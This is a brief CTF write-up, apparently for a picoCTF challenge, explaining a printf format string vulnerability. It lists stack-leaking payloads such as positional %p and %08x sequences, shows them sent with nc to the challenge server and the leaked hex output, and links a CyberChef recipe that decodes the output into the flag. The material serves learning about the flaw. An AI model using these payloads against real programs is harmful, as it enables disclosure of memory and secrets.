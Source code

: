 # Lesson  
- Format String Attack  
  - vulnerability of `printf()` and the kind of the function of `c`  
    "%x" and "%p" can extract a value on stack.  
    - input examples
      ```
      # simple
      %x%x%x%x
      > ffaa0340f7d7f374804934678257825

      %36$p.%37$p.%38$p.%39$p.%40$p.%41$p.%42$p.%43$p.%44$p
      %36$p.%37$p.%38$p.%39$p.%40$p.%41$p.%42$p.%43$p.%44$p

      ```


https://zenn.dev/ri5255/scraps/852f4e4a26965c  
https://note.com/zk_phi/n/nc77f077017d7

# Memo
1. prepare the executable file for debug  
```zsh
$ touch flag.txt
$ echo "my flag yeahhhh" > flag.txt
$ gcc vuln.c -o vuln
$ ./vuln
```

2. test on local

```
my flag yeahhhh
6d 79 20 66 6c 61 67 20 79 65 61 68 68 68 68
```

input
```
%36$08x.%37$08x.%38$08x.%39$08x.%40$08x.%41$08x.%42$08x.%43$08x.%44$08x.%45$08x.%46$08x.%47$08x.%48$08x
```

3. exploit
```zsh
$ nc saturn.picoctf.net 57404
Tell me a story and then I'll tell you one >> %36$08x.%37$08x.%38$08x.%39$08x.%40$08x.%41$08x.%42$08x.%43$08x.%44$08x.%45$08x.%46$08x.%47$08x.%48$08x
Here's a story -
6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.395f6b63.30366635.7d373136.fbad2000.2146c300.00000000
```

4. decode with `CyberCheff`  
[recipe](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',4,false)From_Hex('Auto')&input=NmY2MzY5NzAuN2I0NjU0NDMuNmIzNDMzNGMuNWY2NzZlMzEuNjczNDZjNDYuNjY2NjMwNWYuMzQ3NDUzNWYuMzk1ZjZiNjMuMzAzNjY2MzUuN2QzNzMxMzYuZmJhZDIwMDAuMjE0NmMzMDAuMDAwMDAwMDA)